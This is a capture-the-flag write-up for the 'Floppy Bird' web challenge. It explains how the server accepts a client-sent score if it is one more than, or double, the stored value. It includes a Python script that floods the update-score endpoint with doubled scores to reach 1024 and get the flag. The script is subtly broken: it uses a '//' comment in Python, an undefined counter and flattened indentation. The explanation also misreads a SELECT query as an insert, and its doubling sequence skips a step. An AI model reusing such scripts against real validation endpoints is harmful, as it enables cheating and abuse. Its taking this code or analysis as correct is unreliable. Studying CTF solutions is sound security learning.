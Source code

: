 ### Question

> I have recreated [one of the most classic games](https://floppybird.challs.m0lecon.it/) in the browser, can you score 1000 points and get the flag?
> Author: `mattiabrandon`
> Attechements: `Floppy Bird.zip`

### Solution

> First things first! look at the code! in specific - `app.py`

- After looking around I found the important part! **Line 42**
  
  ```py
  db_score = db.execute(
  'SELECT score FROM scores WHERE token = ?',
  (request.json['token'],)
  ).fetchone()
  ```
- Which has a flaw! it uses the client provided score and insert it into the database!!! REALLY! anyways..
- Another important code is **Line 51**
  
  ```py
  if client_score == db_score + 1 or client_score == db_score * 2:
  ```
- This line has 2 checks, the first is normal but the second is lovely! it's simply a booster code but hard coded! it checks the double `( * 2 )` of the stored score with the client score if they're equal which means it's the multiply of the score so like `1>4>8>16>32>64>128>256>512>1024` so we only need 11 steps/requests to reach the 1000 points to get the flag
- Okay! time to write a python code for this :)
  
  ```py
  import requests
  url = "https://floppybird.challs.m0lecon.it/update-score"
  TOKEN = requests.get("https://floppybird.challs.m0lecon.it/get-token").json()['token']
  data = {'score': 1, 'token': TOKEN} // token changes every request, so let's get one and use it for our scoring
  
  for _ in range ( 12 ):
   count += 1
   r = requests.post(url, json=data)
   print("sent request number: " + str(count))
   if r.text.__contains__("ptm{"):
   print(r.text)
   data['score'] = data['score'] * 2
  ```

- Simply, the code makes a 12 requests (only 11 needed but 1 extra - why not :D ) and multiplies the current score by 2 because the app.py code allows this as explained above

- Once the code reaches request No. 11 the score will be **1024** and the flag will be printed!
  
  > Flag: `ptm{n3v3r_7rus7_cl13n7_s1d3_d4ta}`
